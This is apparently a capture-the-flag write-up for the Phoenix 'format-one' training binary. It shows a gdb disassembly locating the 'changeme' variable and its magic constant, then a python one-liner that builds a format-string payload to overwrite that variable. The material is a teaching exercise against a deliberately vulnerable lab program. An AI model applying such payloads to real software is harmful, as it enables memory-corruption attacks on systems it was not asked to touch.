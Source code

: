 ## Overview

This write-up documents the analysis and exploit for the `format-one` binary from the Phoenix (Exploit Education) set. The goal is to place a specific 32-bit value into a stack variable (`changeme`) by abusing a format-string/sprintf pattern used in the program.

---

## Running the Challenge

When the binary is started it prints a welcome message and indicates that `changeme` does not hold the expected magic value:

![Program output](/assets/phoenix-format/image-1.png)

That tells us the program reads input and stores something which influences the `changeme` variable. The goal is to make it equal to the magic value tested later in `main`.

---

## Static analysis — GDB & Disassembly

Disassembling `main` shows the following (trimmed for relevance):

```asm
(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000004006ed <+0>:     push   rbp
   0x00000000004006ee <+1>:     mov    rbp,rsp
   0x00000000004006f1 <+4>:     sub    rsp,0x50
   ...
   0x000000000040075a <+109>:   mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040075d <+112>:   cmp    eax,0x45764f6c
   0x0000000000400762 <+117>:   je     0x40077a <main+141>
   ...
```

Key observation: the variable at `[rbp-0x10]` (`changeme`) is compared with the constant `0x45764f6c`. Our exploit must set this exact value.

---

## Exploit

We craft an input that writes the required value using the format string vulnerability:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"%32x" + b"\x6c\x4f\x76\x45")' > /tmp/payload.bin

./format-one < /tmp/payload.bin
```
